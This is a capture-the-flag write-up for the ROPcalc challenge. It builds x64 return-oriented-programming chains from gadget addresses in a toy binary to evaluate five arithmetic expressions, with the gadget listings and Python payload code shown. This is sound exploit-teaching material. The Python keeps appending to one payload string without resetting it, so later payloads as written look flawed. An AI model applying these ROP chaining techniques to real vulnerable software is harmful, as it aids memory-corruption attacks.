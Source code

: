 # ROPcalc writeup

ropcalc was fun. You're given the binary and a python server to wrap it. The server calls the binary, you provide stdin, and it simply returns to whatever address you supply. The server then checks the return value and verifies whether or not it matches the expected number.

From the server code:

```python
EXPRESSIONS = ( 
    "$rax + $rbx",
    "$rax + $rbx + 1337",
    "$rax * $rbx",
    "$rax * (31337 + $rbx)",
    "$rcx + 23 * $rax + $rbx - 42 * ($rcx - 5 * $rdx - $rdi * $rsi) - $r8 + 2015",
)
```

So you need to create a ROP chain that evaluates those expressions, then return the value in RAX. It's not difficult, but it's an exercise in x64 ROP. And gadget searching, of course. The server goes through each individual expression and checks it, so we want a rop chain to implement each expression. Also, the server takes a hex encoding of the payload (rop chain).

The first expression is `$rax + $rbx`. I do a `grep "add rax, rbx" calc.rop` and find a gadget:


```
0x0000000000400b30 : add rax, rbx ; ret
```

This looks like a nice gadget. And it'll return with `RAX` being the result, so we're golden.

```python
rop = ''
rop += p64(0x0000000000400b30)
r.sendline(rop.encode('hex'))
```

The next one was to do `$rax + $rbx + 1337`. For this, I decided to just pop the value into a register and add it that way. `RBX` is fine as a temporary register... A couple greps later, and here's a chain:

```
0x0000000000400b30 : add rax, rbx ; ret
0x00000000004008d0 : pop rbx ; ret
1337
0x0000000000400b30 : add rax, rbx ; ret
```

Notice that I'm simply popping 1337 from the stack (into `RBX`) and then adding that. 

```python
rop += p64(0x0000000000400b30)
rop += p64(0x00000000004008d0)
rop += p64(1337)
rop += p64(0x0000000000400b30)
r.sendline(rop.encode('hex'))
```

Next one you needed to multiply (`$rax * $rbx`)! That's crazy stuff, so I had to change my grep up a little. `grep "mul rax, rbx" calc.rop` gave me:

```
0x0000000000400b50 : imul rax, rbx ; ret
```

So...

```python
rop += p64(0x0000000000400b50)
r.sendline(rop.encode('hex'))
```

Now for the next one (`$rax * (31337 + $rbx)`) we need proper order of operations. So I need a temporary register. It can't be `RAX` or `RBX`, so I `egrep "add r.x, rbx" calc.rop`. And I decided to use:

'''
0x00000000004013a0 : add rcx, rbx ; ret
'''

Now everything is as easy as before - put 31337 into `RCX`, add it to `RBX`, then `imul` that with `RAX`. 

```
0x0000000000400900 : pop rcx ; ret
31337
0x00000000004013a0 : add rcx, rbx ; ret
0x0000000000400ba0 : imul rax, rcx ; ret
```

Python:

```python
rop += p64(0x0000000000400900)
rop += p64(31337)
rop += p64(0x00000000004013a0)
rop += p64(0x0000000000400ba0)
r.sendline(rop.encode('hex'))
```

Now this last one was a pain... This:

```
$rcx + 23 * $rax + $rbx - 42 * ($rcx - 5 * $rdx - $rdi * $rsi) - $r8 + 2015
```

had lots of order-of-operations problems. I decided to just do stuff in semi-random order - it's nice that x64 has lots of registers to allow for temp storage <3. After lots of grepping and soul searching (comments and all from my notes):

```
0x0000000000400a20 : pop r10 ; ret          stage 23
23
0x0000000000400d80 : imul rax, r10 ; ret    23 * rax
0x0000000000400b80 : add rax, rcx ; ret     ^this + rcx
0x0000000000400b30 : add rax, rbx ; ret     ^this + rbx

stuffs:
0x0000000000400a20 : pop r10 ; ret
5
0x00000000004019b0 : imul rdx, r10 ; ret
0x0000000000401400 : sub rcx, rdx ; ret

0x00000000004020e0 : imul rdi, rsi ; ret
0x00000000004014a0 : sub rcx, rdi ; ret

0x0000000000400a20 : pop r10 ; ret
42
0x00000000004015a0 : imul rcx, r10 ; ret

0x0000000000400b90 : sub rax, rcx ; ret
0x0000000000400cd0 : sub rax, r8 ; ret
0x0000000000400a20 : pop r10 ; ret
2015
0x0000000000400d60 : add rax, r10 ; ret
```

Yay python:

```python
rop += p64(0x0000000000400a20)
rop += p64(23)
rop += p64(0x0000000000400d80)
rop += p64(0x0000000000400b80)
rop += p64(0x0000000000400b30)

rop += p64(0x0000000000400a20)
rop += p64(5)
rop += p64(0x00000000004019b0)
rop += p64(0x0000000000401400)

rop += p64(0x00000000004020e0)
rop += p64(0x00000000004014a0)

rop += p64(0x0000000000400a20)
rop += p64(42)
rop += p64(0x00000000004015a0)

rop += p64(0x0000000000400b90)
rop += p64(0x0000000000400cd0)
rop += p64(0x0000000000400a20)
rop += p64(2015)
rop += p64(0x0000000000400d60)
r.sendline(rop.encode('hex'))

r.interactive()
```

A bit tedious, but fun nonetheless. Could be a good one to teach basic x64 ROP.
